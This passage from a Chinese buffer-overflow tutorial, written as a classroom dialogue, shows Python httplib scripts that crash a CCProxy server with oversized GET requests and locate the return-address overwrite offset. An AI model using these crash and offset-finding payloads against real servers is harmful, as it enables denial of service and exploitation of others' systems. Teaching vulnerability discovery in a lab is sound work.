 ```
import sys
print sys.argv 
```

“然后另存为 test.py。这两句指令输出该 py 文件执行时带的参数。我们在 DOS 提示符下运行，结果如图 7-15。”

![](img/Q 版缓冲区溢出教程 223470.jpg)

“其实，Python 最方便的地方，一个是构造字符串，另一个是本身已经封装好了很多网络协议，我们可直接使用它来探测软件对网络协议的处理，以期望发现漏洞。”

“好了，介绍就到这里。我们实际用 Python 来写网络协议的测试用例吧！”

“啊！Python 的网络编程还不是很了解呢！”古风担心的说道。

“没关系，我会给出详细解释的。而且有了 C 语言编写网络程序的基础，你们会发现用 Python 的确很可爱。但关键的，还是要明白思路。”

# 7.2.3 实例——Python 探测 CCProxy 漏洞

### 7.2.3 实例——Python 探测 CCProxy 漏洞

“我们用 Python 来对刚才讲解的 CCProxy 漏洞进行探测和定位。”

“刚才使用 VC 编程进行探测时，构造超长字符串很麻烦，而且又要建 Socket，又要连接。但我们用 Python 写一个探测 CCproxy 漏洞的程序则非常简单，只需下面四句。”

```
>>> import httplib
>>> conn = httplib.HTTPConnection("192.168.3.151:808")
>>> a = 'A'*4080
>>>conn.request("GET",a) 
```

“看，192.168.3.151 上的 CCProxy 崩溃了，定位报错框如图 7-16，就是 0x41414141 覆盖了函数返回点。测试完成！”

![](img/Q 版缓冲区溢出教程 224029.jpg)

“啊？这就行了啊？”大家一愣，然后回过神来嚷道，“用 Python 写测试程序太容易了吧！”

“呵呵，是的，如图 7-17。”

![](img/Q 版缓冲区溢出教程 224093.jpg)

“解释一下图 7-17，第一句‘import httplib’是加载 http 协议包，Python 封装了很多协议包，我们直接使用就可以了；第二句‘conn = httplib.HTTPConnection("192.168.3.151:808")’就是使用协议包里面的函数，连接目标机 192.168.3.151 的 808 端口；第三句‘a = 'A'*4080’构造 4080 长度的‘A’赋与变量 a，这是脚本的优势，直接用‘*’就可构造指定长度的字符串；最后一句是‘conn.request("GET",a)’，即把字符串 a 作为 http 的 get 请求发送过去。”

“进一步，我们用 Python 定位千位，只要发送如下字符串就可以了。”

```
import httplib
conn = httplib.HTTPConnection("192.168.3.151:808")
s = 'A'*1000+'B'*1000+'C'*1000+'D'*1000+'E'*80
conn.request("GET",s) 
```

“报错对话框显示为 Offset: 45454545 ，说明千位是 0x45-0x41 = 4。如图 7-18。”

![](img/Q 版缓冲区溢出教程 224605.jpg)　　
